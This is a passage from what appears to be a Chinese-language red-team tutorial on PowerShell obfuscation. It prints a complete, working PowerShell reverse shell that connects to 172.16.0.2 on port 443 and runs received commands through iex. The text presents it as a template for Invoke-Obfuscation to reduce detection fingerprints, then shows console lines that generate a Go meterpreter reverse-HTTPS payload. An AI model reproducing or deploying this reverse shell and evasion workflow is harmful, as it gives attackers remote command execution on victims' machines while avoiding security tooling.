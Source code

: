 <img src="../../images//image-20230123234439567.png" alt="image-20230123234439567" style="zoom:67%;" />



### 4.1 powershell--减少指纹及更复杂的处理

使用更简单的powershell后门作为Invoke-Obfuscation的模板，内容如下：

```
$client = New-Object System.Net.Sockets.TCPClient('172.16.0.2',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```


[go/meterpreter/rev_https>>]: set lhost 172.16.0.2
[go/meterpreter/rev_https>>]: generate